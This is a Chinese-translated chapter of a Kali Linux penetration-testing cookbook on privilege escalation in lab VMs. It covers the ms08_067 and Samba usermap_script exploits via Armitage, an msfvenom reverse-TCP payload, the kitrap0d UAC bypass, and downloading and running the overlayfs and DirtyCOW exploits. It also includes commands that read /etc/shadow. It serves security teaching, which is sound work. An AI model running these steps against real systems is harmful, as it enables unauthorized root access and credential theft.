



# 第七章：提权

在本章中，我们将涵盖以下主题：

+   以提升的用户身份建立连接

+   远程绕过 Windows UAC

+   本地 Linux 系统检查提权

+   本地 Linux 提权

+   远程 Linux 提权

+   DirtyCOW 提权（Linux）

# 介绍

既然我们已经在环境中获得了一个小的立足点，我们将利用这个立足点扩展我们的突破范围，提升管理员权限，并通过横向移动来入侵更多机器。在大多数情况下，突破的初始点并不是目标，而只是通往更有价值目标的手段。通过提升特权，可以使你在环境中移动的能力变得更加轻松。

# 以提升的用户身份建立连接

在本教程中，我们将建立与远程 Windows 计算机的连接。我们将使用在前几章中学到的相同技能来进行初始连接。

# 准备就绪

我们需要确保以下前提条件：

+   你的 Kali Linux 虚拟机已启动并且你以 root 身份登录

+   你的 Windows XP 虚拟机已经启动。

# 如何操作...

现在我们将连接到一台 Windows 机器，并将该连接提升到特权级别：

1.  验证你的 Kali 主机和 Windows 机器的 IP 地址—你应该在两个主机仅限网络上都有接口。在我的例子中，我的 Kali 虚拟机 IP 是`192.168.56.10`，我的 Windows XP 虚拟机 IP 是`192.168.56.102`。

1.  我们需要确保 Windows XP 启用了 NetBIOS over TCP。作为管理员登录 Windows XP 虚拟机，点击开始 | 控制面板 | 网络连接。

1.  右键点击本地连接，点击属性：

Windows 网络连接屏幕

1.  点击右下角的“高级”按钮，然后点击顶部的 WINS，确保选中“启用 NetBIOS over TCP/IP”：

高级 TCP/IP 设置：WINS

1.  如果未选中，点击确定 | 关闭并重启你的 Windows XP 虚拟机。

1.  本书中我们将使用 Armitage，但如果你更喜欢通过 CLI 进行所有操作，你可以使用`msfconsole`。如果此时数据库中有任何主机显示，我们也会清除它。

请参考第四章，《在目标中寻找漏洞》，了解如何启动 Armitage 或 Metasploit，并根据你的偏好清除数据库。

1.  在 Armitage 界面中，我们点击主机 | 添加主机，输入我们的 Windows XP 机器的 IP 地址`192.168.56.102`，然后点击添加。系统确认主机已添加后，点击确定：

Armitage：添加主机对话框

1.  从顶部菜单点击主机 | Nmap 扫描 | 强力扫描，在扫描范围中输入 XP 机器的 IP 地址，然后点击确定：

Armitage：nmap 扫描

1.  一旦`nmap`完成，你将看到“扫描完成！”的消息；点击确定：

1.  从顶部菜单中，点击攻击 | 查找攻击：

Armitage：主屏幕

1.  在“攻击分析完成...”屏幕上，点击确定。

1.  右键点击主机，点击攻击 | smb | ms08_067_netapi：

Armitage：主屏幕

1.  从攻击对话框中，点击启动：

Armitage：攻击对话框屏幕

1.  你会注意到，现在主机显示你已经控制了该设备：

Armitage：主屏幕

1.  右键点击 XP 主机，点击 Meterpreter 1 | 互动 | Meterpreter Shell：

Armitage：主屏幕

1.  从 shell 中输入`getuid`以查看当前谁已登录——你会注意到你已经拥有系统级别的权限：

Armitage：主屏幕

# 远程绕过 Windows UAC

在本教程中，我们将建立与远程 Windows 计算机的连接。然后，我们将绕过**用户帐户控制**（**UAC**）以获取提升的权限。UAC 是 Windows 为防止远程攻击而增强安全性的措施，用户需要确认潜在的权限提升请求。

# 准备就绪

让我们确保以下前提条件：

+   你的 Kali Linux 虚拟机已经启动，并且你已经以 root 用户登录

+   你的 Windows XP 虚拟机已启动

# 如何进行...

我们将远程绕过 Windows UAC 以提升权限：

1.  验证你的 Kali 虚拟机和 Windows 虚拟机的 IP 地址——你应该在两个主机的独立网络上都能看到接口。在我的情况下，我的 Kali 设备是`192.168.56.10`，而我的 Windows XP 设备是`192.168.56.102`。

1.  通过点击终端图标打开终端窗口：

1.  我们将通过输入以下命令快速创建一个有效载荷文件：

```
msfvenom -p Windows/meterpreter/reverse_tcp lhost=192.168.56.10 lport=8443 -f exe > /root/exploit.exe 
```

Kali：终端输出

1.  一旦有效载荷创建完成，将其移动到目标机器。

1.  以标准用户身份登录到目标计算机。在我的情况下，我将以`Jane Doe`身份登录。你可以打开命令提示符并使用`qwinsta`命令，或者在较新的 Windows 版本中，你可以使用`whoami`命令，类似于 Linux 系统：

`qwinsta`命令和`whoami`命令提供有关当前登录会话的信息。`qwinsta`自 Windows 早期版本以来就已经被使用。`whoami`命令是 Linux 环境中使用多年的标准命令，最终被较新的 Windows 版本所采用。Windows：命令提示符

1.  让我们在 Armitage 中启动一个监听器，以便接收我们刚刚复制的有效载荷。

参考 第四章，*在目标中寻找漏洞*，了解更多关于创建监听器的信息。

1.  从 Armitage 主屏幕，选择 Armitage | Listeners | Reverse（等待）：

Armitage: 主屏幕

1.  将端口设置为 `8443`，类型选择为 meterpreter，然后点击 Start Listener：

Armitage: 创建监听器对话框

1.  在你的 Windows 机器上，双击 `exploit.exe` 文件以启动：

Windows 主屏幕：启动漏洞利用

1.  你现在会注意到，我们看到设备已被利用并且已创建会话：

Armitage: 主屏幕

1.  右键点击被利用的机器，选择 Meterpreter 1 | 交互 | Meterpreter Shell：

Armitage: 主屏幕

1.  从 `meterpreter` 控制台，输入以下命令。你会注意到我已登录为 `Jane Doe`，但没有权限运行 `getsystem` 命令：

```
getuid 
sysinfo
getsystem 
```

Armitage: meterpreter 控制台

1.  为绕过 UAC 控制，在左侧选择 exploit | Windows | local | ms10_015_kitrap0d：

Armitage: 主屏幕

1.  在对话框中，验证当前会话是否正确识别你正在使用的 `msf` 会话（在我的例子中是 1），并且 LHOST 显示的是与 Windows 机器在同一子网的接口的 IP 地址，然后点击 Launch：

Armitage: 漏洞选项屏幕

1.  然后你将看到一个成功的漏洞利用，并打开了一个新的会话：

Armitage 漏洞利用屏幕

1.  右键点击 Windows 机器，选择 Meterpreter 2 | 交互 | Meterpreter Shell，选择此新会话：

Armitage: 主屏幕

1.  现在让我们重新运行之前的命令。你会注意到我已登录为 `SYSTEM`，并且我有权限执行 `getsystem` 命令：

```
getuid
sysinfo 
getsystem 
```

Armitage: meterpreter 控制台

# 本地 Linux 系统检查权限提升

在本教程中，我们将使用 Python 脚本检查系统是否存在可能导致权限提升的漏洞。

# 准备中

让我们确保以下前提条件：

+   你的 Metasploitable 机器已连接到 NAT 网络（完成此实验后请立即断开连接）

+   你的 Metasploitable 机器已开机

# 如何操作...

在本教程中，我们将尝试发现一个漏洞，该漏洞将允许我们在 Linux 中提升权限：

1.  使用用户名 `msfadmin` 和密码 `msfadmin` 登录到 Metasploitable 机器。

1.  从 Metasploitable 机器的终端提示符，运行以下命令：

```
cd <enter>
wget http://www.securitysift.com/download/linuxprivchecker.py <enter>
python ./linuxprivchecker.py >> vulns.txt <enter>
tail --lines=50 vulns.txt |more <enter>
```

1.  现在，你可以浏览一系列可以用来针对该机器进行权限提升的漏洞：

 Metasploitable 控制台输出

1.  从这里，你可以使用我们在之前教程中学到的漏洞数据库（Exploit DB），查看哪些攻击可以用来对 Linux 虚拟机进行权限提升。

# 本地 Linux 权限提升

在本教程中，我们将利用一个已知的漏洞来为 Linux 系统中的登录用户提升权限。我们将使用标准用户的登录凭证，然后通过本地账户访问来提升其权限。

# 准备工作

让我们确保以下先决条件：

+   你的 Kali 虚拟机已启动并运行

+   下载并设置 Vulnerable OS 2（VulnOS2），请访问 [`www.vulnhub.com/entry/vulnos-2,147/`](https://www.vulnhub.com/entry/vulnos-2,147/)

+   将网络接口附加到仅限主机的网络

+   启动你的 VulnOS2 镜像

如果你需要帮助设置虚拟机，请参阅 第一章，*安装 Kali 和实验室设置*。

# 如何操作...

现在我们将在 Linux 系统中提升权限：

1.  首先找到 VulnOS2 镜像的 IP 地址——我们可以使用简单的 `nmap` 扫描来查找它。点击终端图标打开终端窗口。

1.  输入以下命令，在仅限主机网络 `192.168.56.0/24` 上运行快速 `nmap` 扫描：

```
nmap -T4 -F 192.168.56.0/24
```

1.  从我们的输出中，我们可以看到机器的地址是 `192.168.56.104`：

Kali 控制台输出我们将通过 SSH 访问设备来利用这个漏洞。也可以使用本地访问，但设计虚拟机的人使用了 AZERTY 键盘布局，如果你想进行本地操作，你需要做相应的调整。由于该布局假定使用不同的键盘布局，你将不能像平常一样直接输入。设计者的意图是，作为渗透测试人员，你需要意识到不同的用户或计算机可能会提供不熟悉的环境，而你需要作出调整。

1.  现在我们通过 SSH 连接到设备，使用我们通过其他方式获取的凭证。在 Kali 命令终端窗口中输入以下内容：

```
ssh webmin@192.168.56.104
```

用户名是 `webmin`，密码是 `webmin1980`。如果系统询问是否继续连接，请选择“是”。如果出现远程主机身份已更改的错误，可以通过在控制台输入 `rm /root/.ssh/known_hosts <enter>` 清除已知主机记录，然后重新尝试 SSH 连接。

1.  假设我们使用了之前的教程《本地 Linux 系统检查权限提升》，我们可能会发现该系统对漏洞 `37292` 易受攻击。

1.  打开 Firefox 浏览器，访问 [`www.exploit-db.com/exploits/37292/`](https://www.exploit-db.com/exploits/37292/)。查看漏洞的详细信息，点击“查看原始”，并将其内容复制到剪贴板：

漏洞 37292 (CVE-2015-1328) overlayfs 是影响 Ubuntu 的一个漏洞，未能正确检查上层文件系统区域中文件的创建。利用该漏洞可能导致获取 root 权限。Firefox: 漏洞数据库

1.  从 SSH 会话中，输入以下内容：

```
cd <enter>
touch 37292.c <enter>
nano 37292.c <enter>
```

1.  粘贴剪贴板内容，退出 nano 并保存文件：

nano 编辑器界面

1.  现在，我们必须通过输入以下内容来编译 C 代码——还要注意，我们以 `webmin` 用户身份登录，并且关机命令无法执行：

```
cd <enter>
gcc 37292.c -o 37292 <enter>
whoami <enter>
shutdown -h now <enter>
```

1.  现在让我们通过输入以下内容来运行 exploit：

```
cd <enter>
./37292 <enter>
whoami <enter>
```

1.  现在你会注意到你已经是 root 用户：

控制台输出界面

# 远程 Linux 提权

在本教程中，我们将使用 Metasploit 对 Metasploitable 虚拟机进行攻击，以提升用户的权限。

# 准备工作

我们来确保以下先决条件：

+   你的 Kali 虚拟机已启动并运行

+   你的 Metasploitable 虚拟机已启动并运行，并且在主机专用网络中

# 如何操作…

在本教程中，我们将在 Linux 设备上远程提升权限：

1.  首先，让我们登录到 Metasploitable 虚拟机并添加一个标准用户。

Metasploitable 的默认用户名是 `msfadmin`，密码是 `msfadmin`。

1.  从控制台，输入以下命令来添加用户并验证 Metasploitable 主机的 IP 地址：

```
cd <enter>
ifconfig <enter>
sudo useradd -m user7 <enter>
 msfadmin <enter>ex
sudo passwd user7 <enter>
 password <enter>
 password <enter>
exit <enter>
```

Metasploitable 控制台

1.  从 Kali 开始，启动 Armitage。

请参阅第四章，*寻找目标中的漏洞*，获取有关启动 Armitage 的信息。

1.  在 Armitage 中，添加 Metasploitable 虚拟机，在我的情况下是 `192.168.56.105`，通过点击主机 | 添加主机：

Armitage: 主界面

1.  从添加主机对话框中，输入 Metasploitable 虚拟机的 IP 地址并点击添加。点击确认对话框中的“确定”：

Armitage: 添加主机对话框

1.  通过选择主机并点击主机 | Nmap 扫描 | 强力扫描，快速扫描设备。确保在输入界面中填写了虚拟机的 IP 地址并点击“确定”：

Armitage: 输入对话框

1.  扫描完成后，在扫描完成对话框中点击“确定”。

1.  现在点击顶部菜单中的攻击 | 查找攻击，然后在攻击分析完成对话框中点击“确定”。

1.  现在让我们通过 Telnet 使用用户名和密码登录 Metasploitable 机器，方法是右键点击主机并选择登录 | telnet：

Armitage: 主界面

1.  在登录对话框中，输入用户名 `user7` 和密码 `password`，然后点击启动：

Armitage: 启动对话框

1.  现在你会看到，基于主机图标的变化，我们已经获得了远程访问：

Armitage：主界面

1.  右键点击主机，选择 shell | 互动 选项，你将进入 Metasploitable 机器的命令提示符窗口。输入以下命令：

```
whoami <enter>
shutdown -h now <enter>
sudo shutdown -h now <enter>
```

1.  从输出中你会看到我们是一个标准用户，没有 root 或 `sudo` 权限：

Armitage：shell 输出

1.  现在让我们尝试利用该系统来获得 root 权限。右键点击主机，选择 攻击 | samba | usermap_script：

Armitage：主界面

1.  在攻击对话框中，确保你的 LHOST 地址正确，然后点击启动：

Armitage：攻击对话框

1.  在成功启动后，你将看到一个新的 shell 会话已被创建，在我的例子中，是 shell 8：

Armitage 漏洞利用输出

1.  右键点击主机，选择 shell8 | 互动 选项，你将进入 Metasploitable 机器中的命令提示符窗口。输入以下命令：

```
whoami <enter>
```

1.  你会看到我们现在是 root 用户，并且可以使用以下命令关闭主机：

```
shutdown -h now <enter>
```

Armitage shell 输出

1.  如果你切换到 Metasploitable 机器的屏幕，你会看到它正在关机：

Metasploitable 控制台：机器正在关机

# DirtyCOW Linux 提权

在这个配方中，我们将使用 DirtyCOW 来攻击 Linux。

我们将使用 Metasploit 与 DirtyCOW 漏洞来进行提权。**脏拷贝写入**（**DirtyCOW**）最近被发现，是一个重大的漏洞，因为它在多年内未被识别和修复。DirtyCOW 是一个提权漏洞，利用了写时复制（copy-on-write）函数中的竞态条件。

# 准备就绪

让我们确保满足以下先决条件：

+   你的 Kali 虚拟机已经启动并运行

+   你的 Metasploitable 虚拟机已经启动并在主机专用网络上

# 如何操作...

现在我们将对一台 Linux 机器发起 DirtyCOW 攻击：

1.  通过点击终端图标打开终端窗口： 

1.  输入以下命令下载我们的 DirtyCOW 漏洞利用代码：

```
cd <enter>
wget https://github.com/FireFart/dirtycow/raw/master/dirty.c <enter>
nano dirty.c <enter>
```

1.  在 nano 中，查找 `struct Userinfo user;` 部分，并将 `user.username` 改为 `"dirtycow"`：

nano 接口

1.  现在我们将把 C 代码发送到我们的 Metasploitable 机器进行编译。

我将使用之前在 *远程 Linux 提权* 配方中创建的相同用户名和密码。

```
cd <enter>
scp ./dirty.c user7@192.168.56.105:dirty.c <enter>
password <enter>
```

1.  从你的 Kali 虚拟机打开一个 SSH 会话到 Metasploit 虚拟机，以标准用户身份登录：

```
ssh user7@192.168.56.105 <enter>
password <enter>
```

1.  让我们编译新的漏洞利用代码：

```
gcc -pthread dirty.c -o dirty -lcrypt <enter>
```

1.  现在我们来看看在启动漏洞利用之前的状态：

```
whoami <enter>
id <enter>
cat /etc/shadow <enter>
sudo /etc/shadow <enter>
password <enter>
```

1.  你会注意到，我是一个标准用户，没有 root 权限，也不是`sudo`用户：

Metasploitable 机器输出

1.  现在我们来运行`dirtycow`漏洞：

```
./dirty <enter>
dirtycow <enter>
```

这将需要几分钟时间来完成；请耐心等待，直到你回到命令提示符窗口！ Metasploitable：DirtyCOW 漏洞

1.  现在让我们看看是否有一个用户可以`su`到：

```
su dirtycow 
dirtycow 
whoami 
id 
cat /etc/shadow
```

1.  从输出中你现在会看到，我是一个提升权限的用户，并且是 root 等价用户：

Metasploitable：提升权限的输出。完成后不要忘记通过输入以下命令恢复`/etc/passwd`文件：`mv /tmp/passwd.bak /etc/passwd`。
